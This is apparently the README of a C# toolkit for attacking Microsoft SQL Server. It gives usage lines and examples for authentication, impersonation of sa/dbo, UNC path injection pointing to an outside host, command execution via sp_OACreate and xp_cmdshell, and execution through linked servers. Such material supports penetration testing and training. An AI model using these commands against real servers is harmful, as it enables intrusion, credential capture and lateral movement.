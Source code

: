 # mssqlcodexecutor
CSharp mssql code executor

## MSSQLAuthenticator
Usage:
```
MSSQLAuthenticator.exe <sql server> <database name>
```
Example:
```
MSSQLAuthenticator.exe sql.local master
```
## SQLImpersonation
### SQLImpersonation-Check
Usage:
```
SQLImpersonation.exe <sql server> <database name> check
```
Example:
```
SQLImpersonation.exe sql.local master check
```
### SQLImpersonation-Impersonate
Usage:
```
SQLImpersonation.exe <sql server> <database name> impersonate <sa/dbo>
```
Example:
```
SQLImpersonation.exe sql.local master impersonate sa
```
## UNCPathInjection
Usage:
```
UNCPathInjection.exe <sql server> <database name> <unc path>
```
Example:
```
UNCPathInjection.exe sql.local master \\192.168.1.6\test
```
## spOACodeExecution
Usage:
```
spOACodeExecution.exe <sql server> <database name> <command>
```
Example:
```
spOACodeExecution.exe sql.local master whomi
```
## xpcmdshellCodeExecution
Usage:
```
xpcmdshellCodeExecution.exe <sql server> <database name> <command>
```
Example:
```
xpcmdshellCodeExecution.exe sql.local master whoami
```
## LinkedSQLServer
### Check
Usage:
```
LinkedSQLServer.exe <sql server 1> <database name> check
```
Example:
```
LinkedSQLServer.exe sql01.local master check
```
### Verify
Usage:
```
LinkedSQLServer.exe <sql server 1> <database name> verify <sql server 2>
```
Example:
```
LinkedSQLServer.exe sql01.local master verify sql02
```

### Execute
Usage:
```
LinkedSQLServer.exe <sql server> <database name> execute <sql server 2> <command>
```
Example:
```
LinkedSQLServer.exe sql01.local master execute sql02 whoami
```
